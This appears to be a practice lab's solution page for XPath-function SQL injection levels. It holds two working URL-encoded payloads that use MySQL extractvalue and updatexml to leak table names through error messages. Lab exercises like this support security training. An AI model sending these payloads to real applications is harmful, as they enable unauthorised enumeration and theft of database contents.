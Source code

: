 # [MAIN PAGE](http://root0x00.altervista.org/sqli/)

## XPATH LEVEL 1

```
http://root0x00.altervista.org/sqli/xpath.php?id=1%27%20and%20extractvalue(0x0a,concat(0x0a,(select%20group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database())))--+
```

## XPATH LEVEL 2
```
http://root0x00.altervista.org/sqli/xpath2.php?id=1%27%20and%20updatexml(null,concat(0x3a,(select%20group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database())),null)--+
```
